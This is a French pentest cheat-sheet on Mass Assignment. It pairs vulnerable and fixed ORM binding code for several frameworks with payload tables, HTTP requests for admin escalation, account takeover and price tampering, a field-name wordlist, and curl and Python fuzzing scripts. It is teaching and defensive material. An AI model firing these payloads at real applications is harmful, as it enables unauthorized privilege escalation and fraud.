

# ⚖️ Mass Assignment

> [!info] **En 1 phrase**
> Mass Assignment = l'app assigne **directement** les champs du corps de requête aux propriétés d'un
> objet (ORM) sans **whitelist** → on peut injecter des champs protégés (`isAdmin`, `role`, `id`, `credit`)
> → escalade de privilèges, takeover de compte, modification de prix.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Mass%20Assignment/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> L'ORM copie le JSON/form vers l'objet **sans filtrage** (`user.save()` avec tout le corps).
> Le développeur n'attend que `username`, `email`, `password`… mais le framework assigne **tout** :
> `isAdmin`, `role`, `balance`, `id`… qui peuvent être modifiés.

```json
{
    "username": "attacker",
    "email": "attacker@email.com",
    "password": "unsafe_password",
    "isAdmin": true
}
```

> Si l'app ne vérifie pas quels paramètres sont autorisés, elle assigne `isAdmin`
> depuis l'entrée utilisateur → **privilèges admin**.

---

## 🧰 Frameworks vulnérables

> L'attaque fonctionne partout où le binding entrée → objet est **automatique et non filtré**.

### 🟥 Ruby on Rails (sans strong parameters)

> ❌ Code vulnérable : `params[:user]` assigné tel quel.
> ✅ Correct : `.permit(:name, :email)`.

```rb
# Génération d'un modèle avec un booléen admin (le champ existe en BDD)
rails generate scaffold User name:string email:string admin:boolean

# ❌ VULNÉRABLE — tout le hash params[:user] est assigné
@user = User.new(params[:user])
@user.save

# ✅ CORRECT — whitelist explicite (strong parameters)
@user = User.new(params[:user].permit(:name, :email))
```

```http
POST /users HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "user": {
    "name": "attacker",
    "admin": true
  }
}
```

### 🟧 Laravel (PHP)

> `$fillable` / `$guarded` dans le modèle. ❌ `$request->all()` assigne tout.

```php
// ❌ VULNÉRABLE — assignation en masse de toutes les entrées
$user->fill($request->all());
$user->save();

// ❌ Également vulnérable
$user = User::create($request->all());

// ✅ CORRECT — whitelist
$user->fill($request->only(['name', 'email']));

// ✅ Ou dans le modèle
class User extends Model {
    protected $fillable = ['name', 'email'];   // champs autorisés
    // protected $guarded = ['is_admin'];      // champs interdits
}
```

```http
POST /api/register HTTP/1.1
Host: target.com
Content-Type: application/json

{"name": "attacker", "email": "a@a.com", "is_admin": 1}
```

```http
POST /api/register HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

name=attacker&email=a@a.com&is_admin=1
```

### 🟩 Django

> `fields` / `exclude` dans le serializer, ou création directe.

```py
# ❌ VULNÉRABLE — tout le payload est passé à objects.create
user = User.objects.create(**request.data)

# ❌ VULNÉRABLE — serializer sans whitelist de champs
class UserSerializer(serializers.ModelSerializer):
    class Meta:
        model = User
        # fields = '__all__'  ← TOUT est accepté !

# ✅ CORRECT — whitelist
class UserSerializer(serializers.ModelSerializer):
    class Meta:
        model = User
        fields = ['username', 'email', 'password']
```

```http
POST /api/users/ HTTP/1.1
Host: target.com
Content-Type: application/json

{"username": "attacker", "email": "a@a.com", "is_staff": true, "is_superuser": true}
```

### 🟨 Flask (SQLAlchemy)

```py
# ❌ VULNÉRABLE — update avec tout le JSON reçu
@app.route('/api/user', methods=['POST'])
def create_user():
    data = request.get_json()
    user = User(**data)          # tous les champs du JSON
    db.session.add(user)
    db.session.commit()
    return jsonify(user.to_dict())

# ✅ CORRECT — ne garder que les champs autorisés
allowed = {k: data[k] for k in data if k in ['name', 'email']}
user = User(**allowed)
```

```json
{"name": "attacker", "email": "a@a.com", "admin": 1, "credit": 99999}
```

### 🟦 Spring Boot (Jackson)

> Jackson désérialise le corps JSON directement dans l'objet annoté `@RequestBody`.
> ✅ Correct : DTO séparé.

```java
// ❌ VULNÉRABLE — l'objet métier est la cible directe du JSON
@PostMapping("/api/user")
public User createUser(@RequestBody User user) {
    return userService.save(user);   // isAdmin, id... du JSON assignés
}

// ✅ CORRECT — DTO avec seulement les champs autorisés
@PostMapping("/api/user")
public User createUser(@RequestBody UserDTO dto) {
    User user = new User();
    user.setName(dto.getName());
    user.setEmail(dto.getEmail());
    return userService.save(user);
}
```

```json
{"name": "attacker", "email": "a@a.com", "isAdmin": true, "id": 1}
```

### 🟪 Node.js / Express + Mongoose

```js
// ❌ VULNÉRABLE — tout req.body est collé au document
const user = new User(req.body);
await user.save();

// ❌ Également vulnérable
await User.findByIdAndUpdate(req.params.id, req.body);

// ✅ CORRECT — whitelist manuelle
const allowed = { name: req.body.name, email: req.body.email };
await User.findByIdAndUpdate(req.params.id, allowed);

// ✅ Ou schéma avec option strict, champs exclus via select:false
//   new Schema({ ..., isAdmin: { type: Boolean, select: false } })
```

```http
PUT /api/user/me HTTP/1.1
Host: target.com
Content-Type: application/json

{"name": "attacker", "role": "admin", "password": "newpass"}
```

### 🟫 ASP.NET (Model Binding)

> Le model binding lie les champs de la requête aux propriétés publiques du modèle.

```csharp
// ❌ VULNÉRABLE — le modèle métier est le paramètre d'action
[HttpPost]
public IActionResult Create([FromBody] User user)
{
    _db.Users.Add(user);      // IsAdmin, Id du JSON assignés
    _db.SaveChanges();
    return Ok();
}

// ✅ CORRECT — view model / DTO
public class UserDTO
{
    public string Name { get; set; }
    public string Email { get; set; }
}
```

```json
{"name": "attacker", "email": "a@a.com", "isAdmin": true}
```

---

## 🎒 Payloads

### Champ unique ajouté

| Payload ajouté | Effet |
|---|---|
| `"isAdmin": true` | passe le flag admin |
| `"role": "admin"` | change le rôle |
| `"admin": 1` | flag admin (PHP/MySQL-ish) |
| `"is_admin": true` | variante snake_case |
| `"id": 1` / `"user_id": 1` | usurper un autre compte |
| `"credit": 99999` / `"balance": 99999` | argent / solde |
| `"price": 0` | prix de l'objet |
| `"status": "approved"` | statut (paiement, modération) |
| `"verified": true` | compte vérifié |
| `"email": "victime@x.com"` | prise de contrôle (reconnexion) |
| `"password": "hacked"` | reset mot de passe si champ protégé |

### Formats d'envoi

```json
# JSON — le plus simple
{"username": "attacker", "isAdmin": true}
```

```http
# Form-encoded (classique dans les forms HTML)
POST /profile/update HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=attacker&isAdmin=true&credit=99999
```

```http
# Arrays / brackets — binding de tableaux
POST /profile/update HTTP/1.1
Content-Type: application/x-www-form-urlencoded

user[name]=attacker&user[id]=1&user[role]=admin
```

```http
# Enveloppe (wrapper object) — style Rails / .NET
POST /api/register HTTP/1.1
Content-Type: application/json

{"user": {"username": "attacker", "is_admin": true}}
```

> [!tip] 💡 **Enveloppes** : si l'app attend `{"user": {...}}`, testez aussi
> le payload **direct** `{"username":..., "is_admin": true}` et inversement.
> Certains frameworks normalisent les deux.

---

## ⚔️ Exploitation — objectifs concrets

### Escalade de rôle / privilèges

```http
PUT /api/users/me HTTP/1.1
Content-Type: application/json

{"name": "attacker", "role": "admin", "permissions": ["*"]}
```

### Prise de contrôle de compte (password / email)

```http
POST /api/user/update HTTP/1.1
Content-Type: application/json

{"username": "attacker", "email": "attacker@evil.com", "password": "pwned123"}
```

> Modifier `email` + `password` sur le compte **courant** → on force la reconnexion
> avec nos identifiants sur le compte de l'utilisateur.

### Usurpation d'identité (champ `id`)

```http
PUT /api/posts/42 HTTP/1.1
Content-Type: application/json

{"title": "x", "author_id": 1, "id": 42}
```

> Modifier l'`author_id` / `owner_id` d'une ressource → **bypass de contrôle d'accès**
> (on devient propriétaire de la ressource d'un autre).

### Champs cachés

> Dans les formulaires, les champs cachés (`<input type="hidden" name="role" value="user">`)
> sont de bons candidats : si le serveur les ré-utilise **sans revalidation**, on les change.

### Prix / montants

```json
{"product_id": 1, "quantity": 1, "price": 0, "total": 0.01}
```

---

## 🕵️ Détection

> L'objectif : **lister les champs de l'objet**, puis tester chaque champ sensible en l'ajoutant.

1. **Cartographier les champs de l'objet** :
   - Docs API (Swagger, OpenAPI, Postman collections, GraphQL introspection)
   - JS client (`fetch('/api/user')`, objets dans le bundle)
   - Réponses d'API existantes (le JSON renvoyé liste souvent **tous** les champs)
   - Tests de régression / seeders / schémas (fichiers `model`, `migration`)
2. **Tester avec un champ inconnu** : envoyer `{"champ_probable": "toto"}` dans un POST/PUT.
3. **Confirmer** : le champ est-il **reflété** dans la réponse ? Persisté (relire l'objet) ?
4. **Vérifier le privilège obtenu** : `isAdmin` → accéder à une route admin.

```bash
# Wordlists de noms de champs à tester
admin  is_admin  isAdmin  isadmin  role  permissions  is_staff  is_superuser
id  user_id  owner_id  author_id  credit  balance  money  points  score
price  total  status  verified  email_verified  approved  active  enabled
is_paid  paid  subscription  plan  premium  vip  privilege  level  rank
```

> [!tip] 💡 **Cible privilégiée** : les endpoints de **création** (POST) et de
> **mise à jour** (PUT/PATCH) d'objets — surtout les profils, commandes, articles,
> réservations. La réponse qui **reflète le champ ajouté** = confirmation immédiate.

---

## 🛠️ Outils

### Burp Suite (méthode manuelle)

```http
# 1. Intercepter une requête POST/PUT de création/modification
POST /api/user/update HTTP/1.1
Host: target.com
Content-Type: application/json

{"name": "attacker"}

# 2. Ajouter le champ sensible dans le body
{"name": "attacker", "isAdmin": true}

# 3. Relire l'objet (GET /api/user/me) : isAdmin est-il vrai ?
```

> - Burp Repeater pour itérer champ par champ.
> - Burp Intruder : **position** sur le nom de champ, wordlist de champs → détecter
>   le champ qui change la réponse (resp. différée / reflétée / 403→200).
> - Comparer les réponses (base vs payload) : variation de taille / statut.

### Scripts / fuzzing

```bash
# Fuzz des noms de champs via curl
while read f; do
  r=$(curl -s -X POST http://target/api/register \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"test\",\"$f\":true}")
  echo "$f → $r"
done < champs.txt
```

```py
# Python (requests) : itérer les champs candidats
import requests
fields = ["isAdmin", "is_admin", "role", "id", "credit", "price", "verified"]
for f in fields:
    r = requests.post("https://target/api/user/update",
                      json={"username": "x", f: "PROBE"},
                      verify=False)
    if "PROBE" in r.text or r.status_code != 400:
        print("INTÉRESSANT:", f, "→", r.status_code)
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Whitelist explicite** | Ne jamais assigner tout le body. `permit()` (Rails), `$fillable` (Laravel), `fields` (Django), DTO (Spring/.NET), pick manuel (Node) |
| **Jamais de champs protégés** | `isAdmin`, `role`, `id`, `balance`, `password` **jamais** dans une whitelist de création/maj |
| **Validation par rôle** | Un `role` passé par l'utilisateur ne doit jamais être source de confiance — le rôle vient du serveur/session |
| **DTO / ViewModels** | L'objet métier ≠ objet d'entrée. Séparer entrée (DTO) et modèle persistant |
| **Revalidation serveur** | Ne pas se fier aux champs cachés / lus du client : revalider prix, rôles, statuts côté serveur |
| **Blacklist insuffisante** | `$guarded = ['is_admin']` se contourne avec des variantes de noms (`isAdmin`, `role`) → préférer **allowlist** |
| **Tests automatisés** | Payloads mass assignment dans le pipeline : tester `isAdmin:true` sur chaque POST/PUT |
| **Logs & monitoring** | Détecter les body anormaux, les re-réponses reflétées, les changements de rôle hors flux |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre des tests**
> 1. **Trouver les champs** (docs API, JS, réponse GET de l'objet).
> 2. **Envoyer un champ inconnu** et observer la réponse (reflété ? statut différent ?).
> 3. **Confirmer la persistance** : relire l'objet (GET) — un 200 ne suffit pas.
> 4. **Vérifier l'impact réel** : tester la route admin / une action réservée au rôle.

> [!warning] ⚠️ **Pièges classiques**
> - **Le champ n'est pas reflété** : la réponse ne renvoie que les champs publics
>   (`select: false`, `hidden`, sérialiseur filtré) → lire l'objet via GET, ou tester
>   l'effet réel (accès à une zone admin).
> - **Blacklist contournée par variante** : `is_admin` bloqué → tester `isAdmin`,
>   `admin`, `role`, `permission`, `level`, `privileges`.
> - **Normalisation du framework** : camelCase vs snake_case vs kebab — tester les deux.
> - **Enveloppe** : `{"user": {...}}` vs `{...}` direct — le framework peut accepter les deux.
> - **Contrôle d'accès ≠ Mass Assignment** : IDOR = deviner/bruteforcer un `id` pour
>   accéder à une ressource d'un autre ; Mass Assignment = **ajouter un champ** pour
>   changer le comportement de la ressource. Les deux se combinent (modifier `owner_id`).
> - **Les endpoints PUT/PATCH sont plus dangereux que les GET** — le body entier passe
>   dans l'objet.
> - **POST /login et /register** : tester `role`/`isAdmin` au premier enregistrement.

---

## 🔗 Liens

- [[IDOR|🎯 IDOR]] — deviner/bruteforcer les identifiants d'une ressource
- [[Injection SQL|💾 SQLi]] — autre vector d'altération de données
- [[Business Logic|🧠 Business Logic]] — abus de logique métier (prix, workflow)
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Mass Assignment](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Mass%20Assignment/README.md)
- 🧪 Labs : [PentesterAcademy — Mass Assignment I](https://attackdefense.pentesteracademy.com/challengedetailsnoauth?cid=1964) · [Mass Assignment II](https://attackdefense.pentesteracademy.com/challengedetailsnoauth?cid=1922) · [Root-Me — API Mass Assignment](https://www.root-me.org/en/Challenges/Web-Server/API-Mass-Assignment)
